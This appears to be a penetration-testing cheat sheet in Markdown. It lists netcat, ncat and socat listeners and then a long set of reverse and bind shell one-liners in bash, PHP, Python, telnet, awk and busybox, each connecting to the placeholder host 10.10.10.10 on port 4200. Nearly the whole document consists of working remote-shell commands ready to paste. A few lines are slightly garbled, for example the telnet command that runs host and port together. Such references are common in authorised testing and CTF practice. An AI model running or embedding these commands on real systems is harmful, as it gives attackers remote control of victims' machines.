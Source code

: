 # Cheatsheet

## Listeners
```sh
nc -lvnp 4200
rlwrap nc -lvnp 4200
ncat -lvnp 4200
ncat --ssl -lvnp 4200
socat -d -d TCP-LISTEN:443 STDOUT
```

## Reverse Shells
Connection initiates from victim to attacker machine.

### Pipe reverse shell:
| Command | Description |
| ------- | ----------- |
| `rm -f /tmp/f` | Removes existing pipe file. Prevents conflicts. |
| `mkfifo /tmp/f` | Named pipe for 2-way communication between processes. |
| `cat /tmp/f` | Read data from named pipe. Waits for input. |
| `bash -i 2>&1` | pipe to bash interactively, redirect all stderr to stdout so that attacker receives all output. |
| `nc 10.10.10.10 4200 > /tmp/f` | Pipe output through `nc` |
| `>/tmp/f` | Sends output of commands back to the named pipe |

```sh
rm -f /tmp/f;mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.10.10 4200 > /tmp/f
```

## Bind Shells
- Bind a port on victim system and listen for a connection.
- Ideal when host does not allow outgoing connections.
- Needs to remain active to receive connections.
- Detectable.

```sh
rm -f /tmp/f;mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 4200 > /tmp/f
```

From the attacking machine:
```sh
nc -nv 10.10.10.10 4200
```

## Normal Bash Reverse Shell
```sh
bash -i >& /dev/tcp/10.10.10.10/4200 0>&1
```

## Read-Line 
Create a new file descriptor `5` and pipes output.
```sh
exec 5<> /dev/tcp/10.10.10.10/4200; cat <&5 | while read line; do $line 2>&5 >&5; done
```

## Bash file descriptor 196 reverse shell
Create a new file descriptor `196` and pipes output.
```sh
0<&196;exec 196<>/dev/tcp/10.10.10.10/4200; sh <&196 >&196 2>&196
```

## Bash file descriptor 5 reverse shell
Open shell with `bash -i` and uses descriptor `5`
```sh
bash -i 5<> /dev/tcp/10.10.10.10/4200 0<&5 1>&5 2>&5
```

## PHP 
```php
php -r '$sock=fsockopen("10.10.10.10", 4200);exec("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.10.10.10", 4200);shell_exec("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.10.10.10", 4200);system("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.10.10.10", 4200);passthru("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.10.10.10", 4200);popen("sh <&3 >&3 2>&3","r");'
```

## Pyhon
Exporting env variables:
```py
export RHOST="10.10.10.10";
export RPORT=443;
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

Subprocess
```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4200));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("bash")'
```

Reverse Shell
```py
python -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",4200));[os.dup2(s.fileno(),f) for f in (0,1,2)];pty.spawn("bash")'
```

## Telnet
```sh
TF=$(mktemp -u); mkfifo $TF && telnet 10.10.10.104200 0<$TF | sh 1>$TF
```

## AWK
```sh
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/4200";while(42) { do{ printf "shell>" | & s; s | & getline c; if(c){while((c | & getline) > 0) print $0 | & s; close(c); }} while(c != "exit") close(s); }}'
```

## BusyBox
```sh
busybox nc 10.10.10.10 4200 -e sh
```
